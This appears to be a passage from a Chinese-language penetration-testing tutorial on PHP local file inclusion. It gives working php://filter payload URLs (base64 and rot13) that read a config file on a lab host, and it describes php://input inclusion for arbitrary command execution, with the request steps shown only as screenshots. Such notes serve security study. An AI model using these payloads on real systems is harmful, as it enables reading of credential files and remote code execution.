 - php://filter协议获取文件base64编码

<p>


-     http://192.168.10.77/include.php/?file=php://filter/read=convert.base64-encode/resource=./config/config.inc.php

    

- 解码即可获取文件内容
  ![](./../../img/文件包含/2022-05-28-15-53-35.png)

<p>


- php://filter协议获取文件rot13编码

<p>


-  http://192.168.10.77/include.php/?file=php://filter/read/string.rot13/resource=./config/config.inc.php

    ![](./../../img/文件包含/2022-05-28-15-59-37.png)

- 如果页面没显示可以查看源代码，解码即可
  ![](./../../img/文件包含/2022-05-28-16-02-01.png)

## php://input协议文件包含

**利用**

- 访问原始数据的只读流，接收请求体post参数作为代码任意命令执行

**前提条件**

- php配置文件php.ini中参数allow_url_include = On (默认配置是Off的状态)

**任意命令执行**

- php://input协议

<p>


- bp改包
  
  ![](./../../img/文件包含/2022-05-28-16-12-40.png)

- 效果如下
  
  ![](./../../img/文件包含/2022-05-28-16-13-25.png)

- 执行获取文件内容命令
  
  ![](./../../img/文件包含/2022-05-28-16-17-06.png)

- 效果如下
  